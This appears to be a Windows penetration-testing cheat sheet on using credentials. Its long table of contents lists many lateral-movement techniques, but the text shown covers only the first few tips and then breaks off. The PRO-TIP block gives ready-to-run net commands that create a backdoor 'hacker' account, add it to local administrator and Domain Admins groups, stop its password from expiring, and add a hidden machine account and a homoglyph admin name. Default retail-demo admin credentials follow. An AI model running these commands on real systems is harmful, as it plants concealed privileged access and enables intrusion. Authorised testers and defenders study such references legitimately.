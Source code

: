 # Windows - Using credentials

## Summary

* [TIPS](#tips)
    * [TIP 1 - Create your credential](#tip-1-create-your-credential)
    * [TIP 2 - Retail Credential](#tip-2-retail-credential)
    * [TIP 3 - Sandbox Credential - WDAGUtilityAccount](#tip-3-sandbox-credrential-wdagutilityaccount)
* [Metasploit](#metasploit)
    * [Metasploit - SMB](#metasploit---smb)
    * [Metasploit - Psexec](#metasploit---psexec)
* [Remote Code Execution with PS Credentials](#remote-code-execution-with-ps-credentials)
* [WinRM](#winrm)
* [Powershell Remoting](#powershell-remoting)
* [Crackmapexec](#crackmapexec)
* [Winexe](#winexe)
* [WMI](#wmi)
* [Psexec.py / Smbexec.py / Wmiexec.py](#psexecpy--smbexecpy--wmiexecpy)
* [PsExec - Sysinternal](#psexec-sysinternal)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Netuse](#netuse)
* [Runas](#runas)
* [Pass the Ticket](#pass-the-ticket)
* [SSH](#ssh)

## PRO-TIP:
```powershell
>net user hacker Hcker_12345678* /add /Y
>net localgroup administrators hacker /add
>net localgroup "Remote Desktop Users" hacker /add # Remote Desktop Protocol (RDP)
>net localgroup "Backup Operators" hacker /add # access.FS
>net group "Domain Admins" hacker /add /domain
# enable a domain user account
>net user hacker /ACTIVE:YES /domain
# prevent users from changing their password
>net user username /Passwordchg:No
# prevent the password to expire
>net user hacker /Expires:Never
# create a machine account (not shown in net users)
>net user /add evilbob$ evilpassword
# homoglyph Aԁmіn
```
# info about User
```powershell
>net user /dom
>net user /domain
```
### TIP 2 - Retail Credential 
$ --[@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)
# run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin
```powershell
Username: RetailAdmin
Password: trs10
```
### TIP 3 - Sandbox Credential - WDAGUtilityAccount
$ --[@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)